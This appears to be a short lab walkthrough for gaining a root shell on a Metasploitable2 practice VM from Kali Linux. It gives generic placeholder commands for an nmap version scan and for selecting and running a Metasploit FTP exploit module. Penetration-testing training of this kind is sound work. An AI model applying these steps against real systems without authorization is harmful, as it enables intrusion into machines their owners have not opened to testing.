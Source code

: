 ### Instructions for Exploiting FTP Service on Metasploitable2 Using Kali Linux

**Objective:** Gain root access to a shell on the target endpoint (Metasploitable2).
**Requirements:** Both Kali Linux and Metasploitable2 are on the same NAT Network.

#### Scan the Target with Nmap

1. Open a terminal on your Kali Linux machine.
2. Use Nmap to discover open ports, services, and their versions on Metasploitable2:

```sh
nmap -sV [TARGET_IP]
```

#### Open Metasploit Framework

1. Launch Metasploit Framework by typing:

```sh
msfconsole
```

### Exploit the FTP Service

1. Search for the FTP exploit module based on the service version found in the Nmap scan:

    ```sh
    search ftp/[VERSION FULLNAME]
    ```

    Replace [VERSION] with the version number identified by Nmap.

2. Select the appropriate FTP module:

    ```sh
    use [EXPLOIT_PATH or EXPLOIT_MODULE_NUMBER]
    ```

    Replace [EXPLOIT_PATH] with the path of the chosen exploit.

3. Set the RHOSTS option to the target IP:

    ```sh
    set RHOSTS [TARGET_IP]
    ```

4. Run the exploit:

    ```sh
    exploit
    ```

5. If successful, you will gain access to the shell. To verify, run:

    ```sh
    whoami
    ifconfig
    ```
